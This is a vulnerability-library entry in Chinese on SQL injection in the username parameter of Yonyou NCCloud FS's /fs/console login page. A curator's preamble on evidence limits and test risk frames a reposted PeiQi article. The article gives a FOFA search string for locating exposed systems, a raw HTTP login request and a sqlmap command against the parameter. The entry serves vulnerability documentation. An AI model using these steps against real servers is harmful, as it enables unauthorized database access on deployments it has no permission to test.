






# 用友NCCloud FS fs/console username SQL 注入

## 条目说明

- 对象与具体问题：用友NCCloud FS；fs/console username SQLi
- 版本、配置及部署条件：无版本
- 认证与权限前提：登录入口但示例重复JSESSIONID，未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 只有正常请求+sqlmap调用，注入类型/原始响应/根因只图
- Cookie重复且密码固定编码来源不明，不能默认必要
- NCCloud应与NC子产品字段区分；无修复build，去推广

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jb7XeLGvdyNrF1xQFsXDjA)


****

**一****：漏洞描述🐑**

**用友 NCCloud FS 文件管理登录页面对用户名参数没有过滤，存在 SQL 注入**

**二:  漏洞影响🐇**

**用友 NCCloud**

**三:  漏洞复现🐋**

```
FOFA "NCCloud"
```

**登录页面如下**


**在应用中存在文件服务器管理登录页面**  

```
http://xxx.xxx.xxx.xxx/fs/
```



**登录请求包如下**

```http
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

**使用 Sqlmap 对 **username 参数** 进行 SQL 注入**

```
sqlmap -r sql.txt -p username
```



 ****四:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**



**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**



最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**




  

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
